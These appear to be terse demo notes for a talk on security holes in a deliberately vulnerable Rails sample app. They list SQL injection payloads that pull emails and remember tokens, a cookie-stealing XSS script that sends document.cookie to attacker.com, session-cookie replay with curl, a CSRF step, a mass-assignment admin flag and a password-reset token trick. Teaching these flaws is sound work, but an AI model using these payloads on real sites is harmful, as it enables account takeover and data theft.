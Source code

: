 # Michael Hartl Sample App + Security Vulnerabilities
=====================================================

Setup
-----

Apache:
tail -f /var/log/apache2/access_log
Index.html - /Library/WebServer/Documents/index.html.en


SQL injection
-------------
* a' ) or 1 = 1  --  
* XXX') union select 1, email, 1, 1, 1 from users --  
* XXX') union select 1, remember_token, 1, 1, 1 from users --  

    curl "http://www.blog.com:3000/" --cookie remember_token=


CSS
---
Bob:
Check this event: <a href="http://railsisrael.events.co.il/tracks">Rails Israel</a>

Alice:
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>


curl "http://www.blog.com:3000/users" --cookie remember_token=

XSRF
----
Go to freeIpad.com as Bob
   Check Apache access log
 
    curl "http://www.blog.com:3000/microposts/7" --cookie remember_token=XXXXXXXX


Mass Asignment
--------------
user%5Badmin%5D=true


Password reset
--------------
Email:
http://www.blog.com:3000/password_resets/8/edit?token=H9fDQauceVttJ9mN7TPCoA
Change to /password_resets/6?token[]

